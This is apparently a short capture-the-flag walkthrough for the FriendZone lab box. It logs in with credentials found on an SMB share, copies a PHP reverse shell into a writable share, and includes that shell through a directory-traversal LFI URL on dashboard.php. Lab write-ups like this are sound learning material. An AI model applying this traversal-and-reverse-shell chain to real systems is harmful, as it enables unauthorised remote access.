


# 20 - LFI


# administrator1


# login.php


we have successfully logged in with the credentials from creds.txt (smb)


# dashboard.php


# Parameters


the value `timestamp` for `pagename` turns out to be a php file


Most likely it adds .php extension to the end of the name and includes it. Without going into the rabbit hole of searching for plain text credentials in php files, we can include our own reverse shell since we have write permissions on Development share.

I prefer php-reverse-shell.php


# Copy the reverse shell into Development share
```
┌─[user@parrot]─[10.10.14.9]─[/mnt/friendzone/Development]
└──╼ $ sudo cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```


# Include the reverse shell
```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../../../etc/Development/shell
```


# Shell


